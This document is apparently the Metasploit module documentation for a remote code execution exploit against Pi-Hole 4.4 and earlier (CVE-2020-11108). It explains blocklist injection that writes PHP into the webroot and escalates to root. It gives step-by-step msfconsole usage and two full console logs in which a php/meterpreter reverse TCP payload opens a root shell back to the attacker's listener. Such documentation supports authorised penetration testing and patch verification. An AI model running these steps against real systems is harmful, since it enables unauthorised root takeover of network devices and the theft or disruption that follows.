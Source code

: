 ## Vulnerable Application

This exploits a command execution in Pi-Hole <= 4.4.  A new blocklist is added, and then an
update is forced (gravity) to pull in the blocklist content.  PHP content is then written
to a file within the webroot.

Phase 1 writes a sudo pihole command to launch teleporter, effectively running a priv esc.

Phase 2 writes our payload to `teleporter.php`, overwriting, the content.

Lastly, the phase 1 PHP file is called in the web root, which launches
our payload in `teleporter.php` with root privileges.

A more detailed writeup is available from the [original author](https://frichetten.com/blog/cve-2020-11108-pihole-rce/).

Due to encodings, a local web server is required to be running on port `80`.

Two blocklist is left within Pi-Hole and should be removed.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_blocklist_exec```
  4. Do: ```set srvhost [IP]```
  5. Do: ```set rhost [IP]```
  6. Do: ```run```
  7. You should get a root shell.

## Options

### Password

Password for the web interface.  Randomly set on install.  Use `pihole -a -p` to change/remove it.

## Scenarios

### Pi-Hole 4.3.2 on Ubuntu 18.04

  ```
  [*] Processing pihole.rb for ERB directives.
  resource (pihole.rb)> use exploit/unix/http/pihole_blocklist_exec
  resource (pihole.rb)> set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  resource (pihole.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (pihole.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (pihole.rb)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (pihole.rb)> set srvport 80
  srvport => 80
  resource (pihole.rb)> set verbose true
  verbose => true
  resource (pihole.rb)> exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf5 exploit(unix/http/pihole_blocklist_exec) > [+] Version Detected: 4.3.2
  [*] Using URL: http://1.1.1.1:80/
  [*] Using cookie: PHPSESSID=45abdcp4rsc9bpi9tchi88ejnn;
  [*] Using token: WzmrFbksWxIbtuSVeyrf8yv9o541UdhueLN+BRXfUmY=
  [*] Adding backdoor reference
  [*] Forcing gravity pull
  [*] (1/2) Sending priv esc trigger
  [*] Adding root reference
  [*] Forcing gravity pull
  [*] (2/2) Sending root payload
  [*] Popping root shell
  [*] Sending stage (38288 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:57982) at 2020-05-12 22:30:38 -0400
  [+] Deleted cdJWzln.php
  [*] Server stopped.
  
  msf5 exploit(unix/http/pihole_blocklist_exec) > sessions -1
  [*] Starting interaction with 1...
  
  meterpreter > getuid
  Server username: root (0)
  meterpreter > sysinfo
  Computer    : pihole
  OS          : Linux pihole 4.15.0-64-generic #73-Ubuntu SMP Thu Sep 12 13:16:13 UTC 2019 x86_64
  Meterpreter : php/linux
  ```

### Pi-Hole 4.4 on Ubuntu 18.04

  ```
  [*] Processing pihole.rb for ERB directives.
  resource (pihole.rb)> use exploit/unix/http/pihole_blocklist_exec
  resource (pihole.rb)> set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  resource (pihole.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (pihole.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (pihole.rb)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (pihole.rb)> set srvport 80
  srvport => 80
  resource (pihole.rb)> set verbose true
  verbose => true
  resource (pihole.rb)> exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf5 exploit(unix/http/pihole_blocklist_exec) > [+] Version Detected: 4.4
  [*] Using URL: http://1.1.1.1:80/
  [*] Using cookie: PHPSESSID=uee4gcfsjk5m8289m4uk4rv1du;
  [*] Using token: uO4ha1e0fy+Qwvoq14XgslT3Z+VJ/h2RR3qyVT6dPz8=
  [*] Adding backdoor reference
  [*] Forcing gravity pull
  [*] Received GET request.  Responding
  [*] Sending 2nd gravity update request.
  [*] Forcing gravity pull
  [*] (1/2) Sending priv esc trigger
  [*] Adding root reference
  [*] Forcing gravity pull
  [*] Received GET request.  Responding
  [*] Sending 2nd gravity update request.
  [*] Forcing gravity pull
  [*] (2/2) Sending root payload
  [*] Popping root shell
  [*] Sending stage (38288 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:48636) at 2020-05-13 20:34:33 -0400
  [+] Deleted VRwxqyhs.php
  
  msf5 exploit(unix/http/pihole_blocklist_exec) > sessions -1
  [*] Starting interaction with 1...
  
  meterpreter > getuid
  Server username: root (0)
  meterpreter > sysinfo
  Computer    : pihole
  OS          : Linux pihole 4.15.0-99-generic #100-Ubuntu SMP Wed Apr 22 20:32:56 UTC 2020 x86_64
  Meterpreter : php/linux
  meterpreter > 
  [*] Blocklists must be removed manually from /admin/settings.php?tab=blocklists
  [*] Server stopped.
  ```
